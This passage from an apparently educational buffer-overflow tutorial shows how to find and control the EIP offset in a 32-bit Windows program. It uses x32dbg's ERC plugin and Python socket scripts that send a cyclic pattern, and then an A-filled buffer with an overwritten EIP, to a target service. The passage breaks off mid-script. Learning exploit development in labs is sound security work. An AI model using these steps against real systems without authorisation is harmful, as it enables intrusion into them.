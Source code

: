 ### Controlling EIP

Once we get the number of bytes, we can fill our buffer with an ASCII pattern.
- In x32dbg
  ```
  ERC --pattern c 500
  ```
  
  Erc will generate a txt with a pattern that will be available in your working directory (if you did not set a working dir, it will probably end up in the plugins folder)
  It should be named "Pattern_Create_1.txt"

- We modify our script accordingly
  ```python
  # fuzzing()
  def eip_offset():
     pattern = bytes("PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE"
     "PATTERN-HERE" ,"utf-8")
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect((IP, port))
     s.send(pattern)
     s.close()

  eip_offset()
  ```
  We can now relaunch the program from our debbugger
  The program will crach with the pattern that rewritten EIP.
  In x32debug we can select the address of EIP to calculate the offset we can click on "modify value"  
  ![EIP address](../.res/image37.png)  
  We can then use ERC pattern: `ERC --pattern o pA6p`  
  ![ERC pattern](../.res/image12.png)  
  In the example we can then write that our offset is 469
  We can update our script accordingly
  ```python
  # eip_offset()

  def eip_control():

          offset = 469
          buffer = b"A"*offset
          eip = b"B"*4
          payload = buffer + eip

          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((IP, port))
  ```